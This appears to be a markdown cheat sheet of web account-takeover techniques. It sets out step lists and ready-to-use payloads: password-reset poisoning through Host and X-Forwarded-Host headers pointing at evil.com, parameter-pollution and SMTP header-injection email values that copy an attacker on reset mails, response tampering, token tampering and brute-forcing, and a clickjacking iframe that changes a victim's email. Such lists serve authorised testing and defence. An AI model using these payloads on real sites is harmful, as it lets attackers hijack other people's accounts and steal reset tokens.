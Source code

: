 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
##### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host:
X-Original-Url:
X-Forwarded-Server:
X-Host:
X-Rewrite-Url:
X-Originating-IP:
X-Forwarded-For:
X-Remote-IP:
X-Remote-Addr:
X-Client-IP:
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection & Email Parameter Manipulation
```
victim@mail.tld%0d%0acc:attacker@mail.tld

victim@mail.tld%0d%0abcc:attacker@mail.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

email=victim@email.tld:attacker@email.tld

{"email":["victim@email.tld","atracker@email.tld"]}
```

#### Response manipulation
```
HTTP/1.1 401 Unauthorized
{“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”}
----------------------------------------------------------------------------
HTTP/1.1 200 OK
{“message”:”success”,”statusCode:200,”errorDescription”:”Success”}
```

#### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

#### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```
*Sometime application uses username or firstname to create particular user's profile.*
*For example: https://site.com/user/bob/*
```
- Create an account and notice carefully application's naming convention.
- Change your account's username or firstname to some common name for admin panel i.e. admin, administrator, dashboard etc.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
